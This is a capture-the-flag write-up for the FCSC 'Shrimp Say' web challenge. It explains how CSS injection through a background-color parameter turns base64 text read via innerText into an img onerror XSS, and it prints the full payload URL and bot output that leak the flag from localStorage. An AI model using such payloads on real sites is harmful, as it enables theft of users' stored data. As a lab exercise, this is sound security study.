

# [Shrimp Say](https://shrimp-say.fcsc.fr/) [WEB]



Shrimp Say is an alternative for the popular `cowsay` command but as a web application with a shrimp instead of a cow.

Once we access the web application, we are greeted with an `Hello Shrimp`
message with a `lightblue` background, in fact those are given in the URL
search parameters: `?msg=Hello Shrimp&bg=lightblue`.

## Where is the flag?

Since the code source is given, we can go through it (`shrimp-say-bot`) to see how it works.

```javascript
const CHALLENGE_HOST = process.env.CHALLENGE_HOST || "http://chall/";
const FLAG = process.env.FLAG || "FCSC{placeholder}";

// ...

async function goto(url) {
  // ...

  await page.goto(CHALLENGE_HOST, {
    timeout: 1000,
    waitUntil: "domcontentloaded",
  });

  await page.evaluate((flag) => {
    localStorage.setItem("flag", flag);
  }, FLAG);

  // ...
}

logMainInfo("Please provide the URL you want to visit:");
process.stdin.on("data", (data) => {
  const url = data.toString().trim();

  if (!url || !(url.startsWith("http://") || url.startsWith("https://"))) {
    console.log("[ERROR] Invalid URL!");
    process.exit(1);
  }

  goto(url).then(() => process.exit(0));
  // ...
});
```

As you can see, when we connect to the bot, we're prompted to enter a URL.
Once done, the bot will navigate to the challenge host and set the `localStorage` item `flag` to the flag value.

That means our goal is to get the bot to navigate to the challenge host and then
`console.log` the flag value somehow !

## The real challenge

At first, we can think of a simple XSS, such as `msg=`.
However, this doesn't work because of a simple, but effective, filter:

```php
msg = $_GET['msg'] ?? "Hello World";
// ...
if (strpos($msg, "<") !== false) {
  redirect("NO XSS", "red");
}
```

This filter is very effective, as it blocks any `<` character in the `msg` parameter.

Let's take a look at the `bg` parameter. It is used to set the background color of the page, and it is passed to the `style` attribute of the body tag.

```php
$bg = $_GET['bg'] ?? "lightblue";
// ...

<style>
  body {
    background-color: <?= htmlentities($bg) ?>;
  }
</style>
```

As you can see, the `bg` parameter is `htmlentities`-ed, which means that we can't escape the `style` tag and inject our own code.

We have to find a way to bypass the `msg` filter using the `bg` parameter.

## How is the message displayed?

Let's take a look at how the message in the bubble is displayed:

```php
<body>
  <main>
    <div class="speech-bubble"></div>
    
  </main>
  <script type="text/base64" id="data">
    <?= base64_encode($msg) ?>
  </script>
  <script>
    document.querySelector(".speech-bubble").innerHTML = atob(
      document.getElementById("data").innerText
    );
  </script>
</body>
```

It is encoded in base64 in a `<script>` and then decoded using `atob` and injected into the `innerHTML` of the `.speech-bubble` div.

There's something very interesting here: the `innerHTML` property is used to set the content of the div, which means that we can inject HTML code into it !

But we still have the `<` filter in the `msg` parameter, how can we manipulate the base64 input to bypass it?

## Understanding the vulnerability

You might have noticed it: to retrieve the content of the `script` tag, we use the `innerText` property.

Let's take a look at the difference between `innerText` and `textContent`, according to [MDN](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/innerText):

> Basically, `innerText` is aware of the rendered appearance of text, while `textContent` is not.

This means that we can manipulate the rendered text to bypass the filter !

We can use the following CSS properties to manipulate the rendered text:

- `text-transform`: allows us to change the case of the text.
- `word-break` with `text-wrap-mode: wrap`: allows us to break the text into multiple lines.

We also have to note that it applies only if the content is visible, so we have to add `display: block`.

## Trials

Let's put this all together and see if we can bypass the filter.

Let's start by escaping the body style and displaying the script containing the data using `bg` parameter:

```
https://shrimp-say.fcsc.fr/?msg=hello&bg=white:}script{display:block
```

Doing this, shows all the scripts, we only need the one with the id `data`, it has an `data` id, so we can simply use `#data` to select it, since it is in URL, we have to URL encode it: `%23`.

```
https://shrimp-say.fcsc.fr/?msg=hello&bg=white:}%23data{display:block
```

Let's uppercase everything !

```
https://shrimp-say.fcsc.fr/?msg=hello&bg=white:}%23data{display:block;text-transform:uppercase
```

This gives us `aGVsbG8=`, which is `btoa("hello").toUpperCase()`, which is `\x00eR\x04o`.
We can use this to bypass the `<` filter, which is only the first character if we consider using this XSS:

```

```

We can use the `word-break` property to break the string into multiple lines, depending on the `width` and then use the `text-transform` property to uppercase only the [first line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line).

```
https://shrimp-say.fcsc.fr/?msg=img%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase
```

Now, we have to figure out the first characters to output the `<` character.
After some trials, we can use `>\t` that will transform into `<i` when uppercased.

That gives us the final payload:

```
https://shrimp-say.fcsc.fr/?msg=%3E%09mg%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase
```

## Getting the flag

Let's connect to the bot and enter the URL:

```terminal
$ nc chall.fcsc.fr 2203
==========
Tips: Every console.log usage on the bot will be sent back to you :)
==========

Please provide the URL you want to visit:
https://shrimp-say.fcsc.fr/?msg=%3E%09mg%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase

Starting the browser...
[T1]> New tab created!
[T1]> navigating        | about:blank

Setting the flag in the localStorage for http://shrimp-say/...
[T1]> navigating        | http://shrimp-say/?msg=Hello%20Shrimp&bg=lightblue

Going to the user provided link...

Leaving o/
[T1]> Tab closed!
[T0]> Tab closed!
```

Ah, we forgot to use the right domain, we have to use `http://shrimp-say/` instead of `https://shrimp-say.fcsc.fr/`.

Let's try again:

```terminal
$ nc chall.fcsc.fr 2203
==========
Tips: Every console.log usage on the bot will be sent back to you :)
==========

Please provide the URL you want to visit:
http://shrimp-say/?msg=%3E%09mg%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase

Starting the browser...
[T1]> New tab created!
[T1]> navigating        | about:blank

Setting the flag in the localStorage for http://shrimp-say/...
[T1]> navigating        | http://shrimp-say/?msg=Hello%20Shrimp&bg=lightblue

Going to the user provided link...
[T1]> navigating        | http://shrimp-say/?msg=%3E%09mg%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase
[T1]> console.error     | Failed to load resource: the server responded with a status of 404 (Not Found)
[T1]> console.log       | {"flag":"FCSC{f6e865cb389605d91470af3b8555e4535463a1a56157c16c858fa8e9c5ff4513}"}

Leaving o/
[T1]> Tab closed!
[T0]> Tab closed!
```

There we go, we can submit the flag !

```
FCSC{f6e865cb389605d91470af3b8555e4535463a1a56157c16c858fa8e9c5ff4513}
```
